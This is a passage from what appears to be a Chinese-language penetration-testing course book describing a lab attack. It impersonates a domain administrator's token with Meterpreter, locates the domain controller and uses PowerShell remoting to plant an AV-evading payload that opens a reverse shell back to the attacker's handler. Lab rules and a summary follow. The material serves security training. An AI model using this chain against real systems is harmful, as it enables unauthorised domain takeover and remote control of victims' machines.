# Impersonation Tokens Available

===========================

`NT AUTHORITY\ANONYMOUS LOGON`

```
列表 998 - 列出可冒充的令牌
```

看起来 `sandbox.local` 的管理员用户已登录到 Cevapi。让我们尝试冒充该用户，以验证我们是否可以提升权限。为此，我们将使用 `impersonate_token` 命令并指定 `Administrator` 用户。为了 Metasploit 能正确读取命令，我们必须对 `"\\"` 字符进行转义。

```
meterpreter > impersonate_token sandbox\Administrator

[+] Delegation token available

[+] Successfully impersonated user sandbox\Administrator

meterpreter > getuid

Server username: sandbox\Administrator

meterpreter > shell

Process 7276 created.

Channel 3 created.

Microsoft Windows [Version 10.0.15063]

(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami

sandbox\administrator

C:\Windows\system32>
```

*列表 999 - 冒充 sandbox 管理员*

成功！我们现在以 `sandbox\administrator` 用户身份运行。接下来，我们需要验证这确实是一个具有管理权限的用户。

```
C:\Windows\system32>net user /domain administrator

net user /domain administrator

The request will be processed at a domain controller for domain sandbox.local.

...

Logon hours allowed                All

Local Group Memberships            Administrators       Remote Desktop Users

Global Group memberships     Domain Admins       Enterprise Admins

                              Domain Users       Schema Admins

                              Group Policy Creator

The command completed successfully.
```

*列表 1000 - 检查管理员权限*

太棒了！如列表 1000 所示，管理员用户是 `Domain Admins` 和 `Enterprise Admins` 组的成员。

### 24.9 针对域控制器

到目前为止，我们已经攻陷了两台 Linux 服务器，Aja 和 Zora。利用 Zora 的内部网络访问权限，我们成功 pivot 到 Poultry。这台主机让我们得以初步窥视内部域。从这里开始，我们攻陷了 Cevapi，并刚刚在 Cevapi 上冒充了 `sandbox` 管理员的令牌。现在我们需要利用这种冒充能力来获取域控制器的访问权限。


#### 24.9.1 利用域控制器

既然我们能够以域管理员用户的身份运行命令，获取域控制器访问权限的一种方法是使用 PowerShell 的 `New-PSSession` 命令来针对远程主机打开一个新会话。^751

为此，我们首先尝试发现域控制器的主机名，以确保我们针对的是正确的服务器。为了发现主机名，我们将使用 `nslookup`。^752

```
C:\Windows\system32>nslookup

nslookup

DNS request timed out.

   timeout was 2 seconds.

Default  Server:  Unknown

Address:  10.5.5.30

> set type=all
```

^751 (MicroSoft, 2020), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession
^752 (Server Fault, 2010), https://serverfault.com/a/78093

```
> _ldap._tcp.dc._msdcs.sandbox.local

Server:	Unknown

Address:	10.5.5.30

_ldap._tcp.dc._msdcs.sandbox.local	SRV service location:

		priority		= 0

		weight		= 100

		port		= 389

	svr hostname		= SANDBOXDC.sandbox.local

SANDBOXDC.sandbox.local internet address = 10.5.5.30

> exit

C:\Windows\system32>
```

*列表 1001 - 使用 nslookup 发现主机名*

不带任何选项运行 `nslookup` 会使其进入交互模式，允许我们设置要查找的记录类型。在这种情况下，我们要查找的类型是 "all"。接下来，我们在 `sandbox.local` 域内查找 `_ldap._tcp.dc._msdcs.` 条目。这将导致 `nslookup` 返回域控制器的 hostname。

获取到 hostname 后，我们将从 meterpreter shell 中启动 `powershell`。

```
meterpreter > shell

Process 260 created.

Channel 5 created.

...

C:\Windows\system32>powershell

powershell

PS C:\Windows\system32>
```

*列表 1002 - 启动 PowerShell*

在 powershell 提示符下，我们将使用带有 `-Computer SANDBOXDC` 标志的 `New-PSSession` 在域控制器上启动一个新会话，该会话将保存在 `$dcsesh` 对象中。

```
PS C:\Windows\system32> $dcsesh = New-PSSession -Computer SANDBOXDC

$dcsesh = New-PSSession -Computer SANDBOXDC

PS C:\Windows\system32>
```

*列表 1003 - 创建新的 PowerShell 会话*

从这里开始，我们可以使用 `Invoke-Command` 命令针对域控制器执行命令。我们需要使用 `-Session` 标志传入会话，并使用 `-ScriptBlock` 命令传入我们要执行的命令。我们要执行的命令必须用花括号括起来。下方提供了一个检查域控制器 IP 的示例。

```
PS C:\Windows\system32> Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}

Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}

Windows IP Configuration

Ethernet adapter Ethernet0:

	Connection-specific DNS Suffix  . :

Link-local IPv6 Address . . . . . : fe80::8539:433a:4360:175f%2

IPv4 Address . . . . . . . . . . . . : 10.5.5.30

Subnet Mask . . . . . . . . . . . . . : 255.255.255.0

Default Gateway . . . . . . . . . . . : 10.5.5.1
...
```


## 列表 1004 - 使用 `Invoke-Command` 检查 IP

既然我们知道可以在域控制器上执行命令，我们将传输并执行一个 meterpreter shell。我们可以再次使用带有 AV 绕过功能的 `whoami.exe`。首先，我们必须将 shell 传输到域控制器。为此，我们将使用 PowerShell 命令 `Copy-Item`。为了让 `Copy-Item` 传输到另一个主机，我们必须提供要传输的文件、传输目标以及我们之前创建的 PowerShell 会话。

```powershell
PS C:\Windows\system32> Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
```

`Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh`

## 列表 1005 - 将 whoami 二进制文件传输到域控制器

文件传输完成后，我们需要执行它。但是，必须配置监听器以捕获反向 shell 请求。为此，我们将把当前的 meterpreter shell 放到后台，并启动一个新的监听器。我们通过在运行 `run` 命令时使用 `-j` 标志，将新的 payload 处理器作为后台作业启动。

```
meterpreter > background

[*] Backgrounding session 2....

msf5 exploit(multi/handler) > run -j

[*] Exploit running as background job 1.

[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.11.0.4:80
```

## 列表 1006 - 将新的 payload 处理器作为后台作业启动

既然监听器已在后台运行，我们需要回到 Cevapi 上的会话，以便在域控制器上执行 shell。

```
msf5 exploit(multi/handler) > sessions -l

Active sessions

================

 Id   Type     Information  Connection

 --  ----  ---------  ----------

  1  meterpreter  x86/windows  CEVAPI\jenkinsuser @ CEVAPI  10.11.0.4:80 -> 10.11.1.250

  2  meterpreter  x86/windows  NT AUTHORITY\SYSTEM @ CEVAPI  10.11.0.4:80 -> 10.11.1.250

msf5 exploit(multi/handler) > sessions -i 2

[*] Starting interaction with 2...

meterpreter > shell

Process 5612 created.

Channel 2 created.

C:\Windows\system32>powershell
```

`powershell`

## 攻击性安全

最后，我们将执行 PowerShell 命令以在域控制器上运行 `whoami` 二进制文件，使用以下命令：

```powershell
PS C:\Windows\system32> $cdcesh = New-PSSession -Computer SANDBOXDC

PS C:\Windows\system32> Invoke-Command -Session $cdcesh -ScriptBlock {C:\Users\Public\whoami.exe}

[*] Sending stage (180291 bytes) to 10.11.1.250

[*] Meterpreter session 3 opened (10.11.0.4:80 -> 10.11.1.250:54198) at 17:31:12
```

如果二进制文件执行成功，我们将收到监听器打开新会话的警报。让我们先将在 Cevapi 上的会话放到后台。

```powershell
^C

Terminate channel 2? [y/N] y

meterpreter > background

[*] Backgrounding session 2...
```

一旦我们回到 metasploit 控制台，我们就可以列出所有活动会话，我们应该会在 `SANDBOXDC` 主机上看到一个新的会话被创建。

```bash
msf5 exploit(multi/handler) > sessions -l

Active sessions

===============

Id   Type     Information          Connection

--   ----     ---------------      ----------

1    meterpreter x86/windows      CEVAPI\jenkinsuser @ CEVAPI 10.11.0.4:80 -> 10.11.1.250

2    meterpreter x86/windows      NT AUTHORITY\SYSTEM @ CEVAPI 10.11.0.4:80 -> 10.11.1.250

3    meterpreter x86/windows      sandbox\Administrator @ SANDBOXDC 10.11.0.4:88 -> 10.11.1.250
```

最后，我们可以与该新会话进行交互。

```powershell
msf5 exploit(multi/handler) > sessions -i 3

[*] Starting interaction with 3...

meterpreter > shell

Process 3360 created.

Channel 1 created.

Microsoft Windows [Version 10.0.14393]

(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Documents>whoami
```


`whoami`
`sandbox\administrator`
`C:\Users\Administrator\Documents>hostname`
`hostname`
`SANDBOXDC`
`C:\Users\Administrator\Documents>`

*列表 1011 - 与域控制器上的会话进行交互*

现在，我们已使用管理员用户获得了域控制器的访问权限，并且我们已达成目标。在此阶段，我们可以断定这次渗透测试是成功的。但请记住，在许多渗透测试中，获取域管理员权限并不总是主要目标。很多时候，客户可能更关心他们仓库中的数据，而不是对系统的访问权限。虽然域管理员权限和对系统的访问可能被用于获取数据的访问权限，但它并不总是终点。

### 24.10 总结

我们经历了一段旅程，穿越了许多隧道和 shell。我们最初只有一个主机名和目标的基本信息。我们使用渗透测试技能获取了对 WordPress Web 服务器的访问权限，随后这使我们能够利用数据库。数据库为我们提供了进入内部网络的立足点，在那里我们获得了用户工作站的访问权限。我们在用户工作站上提升了权限，并获取了关于域的信息。然后，我们利用内部访问权限在 Jenkins 开发服务器上获得了一个立足点。一旦我们在 Jenkins 服务器上提升了权限，我们发现域管理员也已登录。最后，我们仿冒域管理员创建了一个新的域管理员并登录到域控制器。在这次旅程中，我们学到了枚举的重要性、隧道技术的实际困难以及许多其他经验教训。

我们强烈推荐你在渗透测试过程中做详细的笔记，并妥善记录特定操作执行的时间。在渗透测试结束后，我们必须确保将一切恢复原状。任何漏洞利用或 shell 必须被移除，或者至少应通知客户其位置。在 PWK 实验室中，请在完成练习后通过学生控制面板将机器恢复原状。

## 25. 更加努力的尝试：实验室

你已被聘用在课程期间对内部 VPN 实验室网络进行渗透测试。主要目标是在尽可能多的机器和子网上获取尽可能多的 shell。你的目标是在每台机器上获取最高可能的权限级别（管理员/ root）。

如需必要，你可以更改实验室机器上的管理员或 root 密码，或向系统添加额外用户，前提是你在完成攻击后通过你的学生控制面板将机器恢复至初始状态。有些机器拥有多个攻击向量，因此强烈建议你花费时间去寻找尽可能多的向量。虽然你可以当然使用 Web shell 来获取机器上的初始立足点，但你真正的目标是返回到你 Kali 虚拟机的反向 shell 或对目标的 GUI 访问。

**注意：** 位于每台机器上的 **proof.txt** 文件应记录在你的实验室报告中（如果你选择提交的话）。这些文件不应被视为最终目标（这是一次渗透测试，而不是夺旗赛）。在实验室机器上获取高权限 shell 会带来无与伦比的成就感，你很快就能体验到这种感觉。

### 25.1 现实模拟

内部 VPN 实验室网络包含一些可以通过客户端攻击利用的模拟客户端。这些客户端被编程模拟常见的企业用户活动。实验室中微妙的提示可以帮助你找到这些模拟客户端。彻底的后期利用信息收集也可能揭示客户端机器之间的通信。

各种模拟客户端将在不同的时间间隔执行其任务。最常见的间隔是五分钟。

一些实验室机器包含清理脚本。这些脚本特别是用于客户端攻击向量，以帮助确保机器/服务可以供其他学生使用。

### 25.2 机器依赖关系

某些目标无法在不先收集另一台实验室机器上的特定额外信息的情况下被利用。其他目标只能通过枢纽（pivot）进行利用。学生管理员不会提供关于机器依赖关系的详细信息。确定某台机器是否具有依赖关系是信息收集过程的重要组成部分，因此你需要自行发现这些信息。

### 25.3 解锁网络

最初，PWK 控制面板允许你恢复学生网络上的机器以及你专用的实验室客户端机器。实验室中某些易受攻击的机器将包含一个带有 MD5 哈希值的 **network-secret.txt** 文件。这些哈希值将解锁控制面板中的额外网络。

### 25.4 路由

IT、Dev 和 Admin 网络不能从公共学生网络直接路由，但公共学生网络可以从所有其他网络路由。你需要使用课程中介绍的各种技术来获得对其他网络的访问权限。例如，你可能需要利用位于防火墙后的 NAT 机器、利用双宿主主机或客户端漏洞利用。

### 25.5 机器排序与攻击向量

实验室机器的 IP 地址并不重要。例如，你不需要从 `10.11.1.1` 开始并按数字顺序处理机器。作为渗透测试人员，你需要学习的最重要技能之一是扫描大量机器以找到最易利用的目标。此外，请记住，如果不先进入另一个网络，你通常无法完全控制某个特定的网络。

### 25.6 防火墙 / 路由器 / NAT

连接各个网络的防火墙和其他网络设备无法直接利用。虽然它们在范围内，你可以尝试获取它们的访问权限，但它们并非有意为你设计供你利用的。此外，强烈不建议进行长时间的攻击，如暴力破解或 DOS/DDOS，因为这将使防火墙以及连接在其上的任何额外网络对你和其他学生不可访问。

实验室中许多机器启用了软件防火墙，可能不会响应 ICMP 回显请求。如果 IP 地址没有响应 ICMP 回显请求，这并不一定意味着目标机器宕机或不存在。

### 25.7 密码

花费过多时间破解实验室中所有机器的 root 或管理员密码并非必要。如果你已经尝试了 Kali 中所有可用的密码字典，并使用了在实验室中收集的信息，请停下来考虑另一种攻击向量。如果你拥有强大的破解硬件，那么请随意继续破解尽可能多的密码。

### 25.8 总结

如果你花时间理解了课程书中介绍的课程内容以及相关视频，并完成所有练习（包括“额外一英里”练习），你将能够享受完整的实验室评估。如果你遇到困难，请考虑填补课程材料中的知识空白，如果仍然卡住，请后退一步，从新的视角看待问题。很容易对单一挑战过于执着而忽略了其他路径上可能存在的更简单解决方案。做好笔记并经常回顾，寻找可能促进评估的其他路径。如果所有办法都失败了，请毫不犹豫地联系学生管理员。最后，请记住，你通常已经拥有解决眼前问题所需的所有知识。不要放弃，记住“更加努力尝试”的纪律！
